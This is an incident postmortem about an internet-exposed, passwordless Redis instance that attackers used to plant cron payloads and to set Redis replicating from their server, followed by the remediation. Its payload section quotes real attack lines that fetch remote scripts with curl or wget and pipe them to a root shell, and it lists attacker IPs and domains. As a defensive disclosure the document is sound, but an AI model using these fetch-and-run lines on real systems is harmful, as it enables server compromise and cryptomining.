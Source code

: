 #+TITLE: Redis Security Incident Postmortem
#+DATE: July 20, 2025
#+AUTHOR: Melbourne Baldove
#+TAGS: security incident redis postmortem

* Executive Summary
On July 20, 2025, our Redis instance was compromised by external attackers who gained unauthorized access through an exposed port. The attackers injected malicious cron job payloads in an attempt to gain code execution on our server. The attack was contained due to Docker containerization and has been fully remediated.

** Incident Details
- *Date:* July 20, 2025
- *Duration:* ~2 hours (09:20 - 11:20 UTC)  
- *Severity:* High
- *Status:* Resolved

* Timeline
| Time (UTC)        | Event                                                                    |
|-------------------+--------------------------------------------------------------------------|
| July 16, 09:43    | *Root Cause*: Redis port 6379 exposed to internet via commit =0cf674127= |
| July 20, 09:20    | *Attack Begins*: External IP =109.244.159.27= compromises Redis          |
| July 20, 09:20-11:17 | *Persistence*: Redis configured as replica of attacker's server          |
| July 20, 11:17    | *Discovery*: User restarts Twenty service, notices Redis errors         |
| July 20, 11:20    | *Investigation*: Malicious Redis keys discovered during troubleshooting |
| July 20, 12:00-13:00 | *Remediation*: Firewall rules implemented, malicious keys deleted       |
| July 20, 13:05    | *Resolution*: External access blocked, services restored                |

* Root Cause Analysis
** Primary Cause
Redis was exposed to the internet without authentication due to Docker port binding configuration:

#+BEGIN_SRC nix
# In arion-compose.nix (commit 0cf674127)
redis = {
  service = {
    image = "redis:latest";
    ports = [ "6379:6379" ];  # Bound to 0.0.0.0:6379 (ALL interfaces)
  };
};
#+END_SRC

** Contributing Factors
1. *No Redis Authentication*: Redis ran with default configuration (no password)
2. *Docker Firewall Bypass*: Docker bypassed NixOS firewall rules by default
3. *Overly Broad Port Binding*: Services bound to all interfaces instead of localhost
4. *Missing Security Review*: Port exposure commit lacked security consideration

* Attack Analysis
** Attack Vector: Redis Configuration Manipulation
A well-known attack pattern targeting exposed Redis instances:

1. *Discovery*: Automated scanners found exposed Redis on port 6379
2. *Access*: No authentication required for Redis commands  
3. *Payload Injection*: Malicious cron jobs stored as Redis keys
4. *Persistence*: Redis configured as replica of =109.244.159.27:21880=
5. *Attempted Execution*: Attackers tried to save payloads as system cron files

** Malicious Payloads Found
#+BEGIN_EXAMPLE
backup1: "*/2 * * * * root curl -fsSL http://pyats.top/ep9TS2/init.sh | sh"
backup2: "*/3 * * * * root wget -q -O- http://natalstatus.org/ep9TS2/ndt.sh | sh"  
backup3: "*/4 * * * * root curl -fsSL http://45.83.122.25/ep9TS2/init.sh | sh"
backup4: "*/5 * * * * root wd1 -q -O- http://185.19.33.145/ep9TS2/init.sh | sh"
#+END_EXAMPLE

** Attack Goals
- Cryptocurrency mining installation
- Backdoor creation (SSH keys, reverse shells)
- Data exfiltration  
- Lateral movement within infrastructure
- Botnet recruitment

** Why Attack Failed ✅
*Docker containerization prevented full compromise:*
- Redis container couldn't write to host =/var/spool/cron/crontabs/=
- Container isolation prevented file system escape
- Limited container permissions blocked system access
- No host network access for lateral movement

* Impact Assessment
** Security Impact ✅
- ✅ *No Code Execution*: Malicious payloads stored but never executed
- ✅ *No Data Breach*: No evidence of data access or exfiltration  
- ✅ *No System Compromise*: Host system remained secure
- ✅ *No Lateral Movement*: Attack contained within Redis container

** Service Impact ✅
- ✅ *No Service Disruption*: All services remained operational
- ✅ *No Data Loss*: Application data integrity maintained
- ⚠️ *Brief Deployment Issues*: Remediation caused temporary deployment failures

** Business Impact
- *Minimal*: No customer impact or downtime
- *Reputational*: Internal incident only, no external disclosure required

* Remediation Actions
** Immediate Actions (Day 1)
- [X] Deleted malicious Redis keys (=backup1-4=)
- [X] Stopped Redis replication to attacker server
- [X] Blocked external access via firewall

** Permanent Fix  
*Docker Firewall Integration*: Configured Docker to respect NixOS firewall:

#+BEGIN_SRC nix
virtualisation.docker.extraOptions = "--iptables=false";
#+END_SRC

** Verification ✅
- ✅ External Redis access blocked (timeout on port 6379)
- ✅ External PostgreSQL access blocked (timeout on port 5432)  
- ✅ Internal services functioning (Twenty, Outline, n8n)
- ✅ No malicious keys in Redis

* Lessons Learned
** What Went Wrong ❌
1. *Insufficient Security Review*: Port exposure change wasn't evaluated for security impact
2. *Default Configurations*: Redis and Docker used insecure defaults
3. *Missing Security Documentation*: No guidelines for service exposure
4. *Inadequate Monitoring*: No alerting for unusual Redis activity

** What Went Right ✅
1. *Defense in Depth*: Docker containerization prevented full compromise
2. *Quick Detection*: Issue discovered within hours during routine maintenance  
3. *Effective Response*: Rapid investigation and remediation
4. *No Data Loss*: Security measures prevented actual harm

* Preventive Measures
** Immediate (Completed)
- [X] *Firewall Configuration*: Docker now respects NixOS firewall rules
- [X] *Port Audit*: All services reviewed for unnecessary external exposure
- [X] *Redis Cleanup*: All malicious keys removed and monitoring implemented

** Short Term (Next 30 days)
- [ ] *Redis Authentication*: Enable Redis password authentication
- [ ] *Security Monitoring*: Implement Redis access logging and alerting
- [ ] *Port Scanning Detection*: Add monitoring for port scan attempts
- [ ] *Security Documentation*: Create secure deployment guidelines

** Long Term (Next 90 days)
- [ ] *Security Reviews*: Mandatory security review for infrastructure changes
- [ ] *Automated Security Testing*: Integration of security scans in CI/CD
- [ ] *Network Segmentation*: Implement proper network isolation
- [ ] *Intrusion Detection*: Deploy comprehensive monitoring solution

* Technical Details
** Attack Indicators
- *IP Addresses*: =109.244.159.27=, =185.19.33.145=, =45.83.122.25=
- *Domains*: =pyats.top=, =natalstatus.org=
- *Redis Keys*: =backup1=, =backup2=, =backup3=, =backup4=
- *Attack Scripts*: =/ep9TS2/ndt.sh=, =/3nFTk7/init.sh=

** System Configuration
- *Platform*: NixOS on Hetzner VPS
- *Container Runtime*: Docker with Arion
- *Network*: WireGuard VPN with public interface  
- *Services*: Twenty CRM, Outline Wiki, n8n, Ghost CMS

** Resolution Commands
#+BEGIN_SRC bash
# Block external access
virtualisation.docker.extraOptions = "--iptables=false";

# Clean Redis
docker exec twenty-redis-1 redis-cli DEL backup1 backup2 backup3 backup4

# Verify firewall  
timeout 3 nc -zv newton 6379  # Should timeout/fail
#+END_SRC

* Communication
** Internal Notification
- Engineering team notified immediately upon discovery
- Security incident response team activated
- All stakeholders updated throughout remediation

** External Communication
- *Customer Impact*: None - no external communication required
- *Compliance*: No regulatory reporting requirements triggered
- *Public Disclosure*: Not required - no data breach or service impact

* Metadata
- *Incident Commander*: Melbourne Baldove
- *Security Review*: Claude Code Assistant
- *Document Classification*: Internal
- *Last Updated*: July 20, 2025
- *Next Review*: January 20, 2026